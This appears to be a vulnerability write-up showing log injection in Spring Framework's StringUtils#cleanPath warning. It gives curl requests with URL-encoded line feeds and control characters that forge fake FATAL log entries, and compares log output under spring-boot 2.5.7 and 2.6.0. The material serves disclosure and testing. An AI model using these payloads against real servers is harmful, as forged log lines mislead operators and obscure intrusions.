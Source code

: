```
2021-12-02 13:18:24,523 [http-nio-8443-exec-2] FATAL java.lang.Exception:
    Exception in thread "main" java.lang.OutOfMemoryError: Java heap space
2021-12-02 13:21:17,550 [http-nio-8443-exec-6] DEBUG looking up handler for path: error - s.d.s.w.PropertySourcedRequestMappingHandlerMapping:109
```

Since log injection at DEBUG level is no valid vulnerability, I show a way at WARN level in spring-framework.<BR>
To trigger the WARN log output in `StringUtils#cleanPath`, add a trailing `../` to your URL path.<BR>
Here with some normal control characters examples:<BR>
1. example:<BR>
```curl 'http://localhost:8080/api/path../data%5D%0A2021-12-06%2015%3A23%3A15.196%20%20FATAL%2011810%20---%20%5Bnio-8080-exec-1%5D%20EXCEPTION%3A%20%5BOOM%0Bnext%0Cnext%0Dnext_escseq%1BEnext_finished'```

Log output with spring-boot-starter-parent 2.5.7, it will produce such log entry with translated linefeeds and control characters:
```
2021-12-06 15:42:10.859  WARN 12640 --- [nio-8080-exec-2] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [api/path../data] 
2021-12-06 15:23:15.196  FATAL 11810 --- [nio-8080-exec-1] EXCEPTION: [OOM 
next 
next_escseq next 
next_finished] 
```
  
Log output with spring-boot-starter-parent 2.6.0, will not longer translate the control characters and shows it url encoded:
```
2021-12-06 15:40:06.146  WARN 12480 --- [nio-8080-exec-2] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [api/path../data%5D%0A2021-12-06%2015%3A23%3A15.196%20%20FATAL%2011810%20---%20%5Bnio-8080-exec-1%5D%20EXCEPTION%3A%20%5BOOM%0Bnext%0Cnext%0Dnext_escseq%1BEnext_finished] 
```
2. example:
```curl 'http://localhost:8080/api/path../data%5D%0A2021-12-06%2015%3A23%3A15.196%20%20FATAL%2011810%20---%20%5Bnio-8080-exec-1%5D%20EXCEPTION%3A%20%5BOOM'```

with spring-boot-starter-parent 2.5.7:
```
2021-12-06 15:47:35.987  WARN 12640 --- [nio-8080-exec-1] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [api/path../data] 
2021-12-06 15:23:15.196  FATAL 11810 --- [nio-8080-exec-1] EXCEPTION: [OOM] 
```
  
with spring-boot-starter-parent 2.6.0:
```
2021-12-06 15:50:13.833  WARN 12819 --- [nio-8080-exec-1] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [api/path../data%5D%0A2021-12-06%2015%3A23%3A15.196%20%20FATAL%2011810%20---%20%5Bnio-8080-exec-1%5D%20EXCEPTION%3A%20%5BOOM] 
```
  
3. example:
```curl 'http://localhost:8080/api/path../data12345%08%08'```

A backspace %08 will move the closing bracket only in 2.5.7, refer to missing digit "4" where the bracket is now shown: 
```
2021-12-06 15:56:02.619  WARN 12956 --- [nio-8080-exec-1] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [api/path../data123]5 
```

No more control translation in 2.6.0:
```
2021-12-06 15:55:05.519  WARN 12819 --- [nio-8080-exec-4] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [api/path../data12345%08%08] 
```

```